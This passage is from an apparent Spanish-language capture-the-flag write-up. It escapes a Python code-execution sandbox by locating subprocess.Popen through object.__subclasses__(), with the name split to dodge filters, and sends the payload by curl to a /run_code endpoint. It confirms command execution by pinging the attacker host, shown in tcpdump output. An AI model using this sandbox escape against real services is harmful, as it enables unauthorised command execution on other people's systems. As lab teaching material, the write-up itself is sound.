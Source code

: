 ~~~ python
po_pen = 'Po' + 'pen'

for i, cls in enumerate(().__class__.__bases__[0].__subclasses__()):
    if cls.__name__ == po_pen:
        print(i, cls)
~~~

Este código debería retornar el índice donde se encuentra la función `Popen()`

~~~ bash
curl -sX POST http://10.10.11.62:5000/run_code -d "code=po_pen+%3D+'Po'+%2B+'pen'%0A%0Afor+i%2C+cls+in+enumerate(object.__subclasses__())%3A%0A++++if+cls.__name__+%3D%3D+po_pen%3A%0A++++++++print(i%2C+cls)"

{"output":"317 <class 'subprocess.Popen'>\n"}
~~~

### Command Execution Without `subprocess.Popen()`

A modo de prueba, ejecutaremos un `ping` a nuestra máquina atacante. Comenzaremos escuchando tráfico ICMP por la interfaz `tun0`

~~~ bash
tcpdump -i tun0 icmp
~~~

Al ejecutar la siguiente línea, utilizamos el **valor del índice** para llamar a la función directamente, enviando los parámetros necesarios

~~~ python
object.__subclasses__()[317](['ping', '-c', '1', '10.10.14.188'])
~~~

- `[317]`: Accede al índice `317`, allí se encuentra la función `Popen()` 
- `(['ping', ...])`: Instanciamos la clase llamando a la función y enviando los argumentos necesarios

También podemos hacerlo de la siguiente manera

~~~ bash
().__class__.__bases__[0].__subclasses__()[317](['ping', '-c', '1', '10.10.14.188'])
~~~

De ambas formas logramos ejecutar el comando en el sistema como si lo hiciéramos importando el módulo `subprocess`

~~~ python
import subprocess
subprocess.Popen(['ping', '-c', '1', '10.10.14.188'])
~~~

Desde nuestra máquina atacante recibiremos la traza ICMP al enviar la solicitud

~~~ bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:45:03.969532 IP 10.10.11.62 > 10.10.14.188: ICMP echo request, id 2, seq 1, length 64
13:45:03.969546 IP 10.10.14.188 > 10.10.11.62: ICMP echo reply, id 2, seq 1, length 64
~~~
